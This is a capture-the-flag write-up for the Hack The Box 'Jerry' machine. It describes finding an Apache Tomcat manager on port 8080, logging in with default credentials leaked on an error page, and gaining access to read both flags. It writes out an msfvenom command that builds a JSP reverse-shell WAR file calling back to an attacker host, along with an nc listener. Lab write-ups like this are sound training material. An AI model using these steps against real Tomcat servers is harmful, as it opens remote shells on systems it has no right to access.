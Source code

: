 # Jerry

Jerry was a an easy windows box that didnt require much and had no privelage escalation. We get the user flag and the root
flag at the same stage

>Skills involved in this box
- enumeration
- msfvenom payload creation
- metasploit
- web reverse shells

# USER

We first begin our nmap scan and find that there is only port 8080 open.

We visit the web page which is running the tomcat web application and click on the tab that says `manager app`.

It asks for credentials so we click off it. By doing this it exposes us to an error page where it gives us details that it
requires the credentials `tomcat:s3cret`.

We login using theese creds and we find a new page that has an uplaod feature where we can upload `.war` files
We can use msfvenom to create a payload for our .war file
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your ip LPORT=1234 -f war > backdoor.war
```
We then upload the file to the site and execute it.
We setup a listener with `nc -nlvp 1234` and we get a connection.
We enumerate files until we finllay find the flags in this folder:
```
C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt
```
we can simply use `type` to read the file.
Thanks for reading

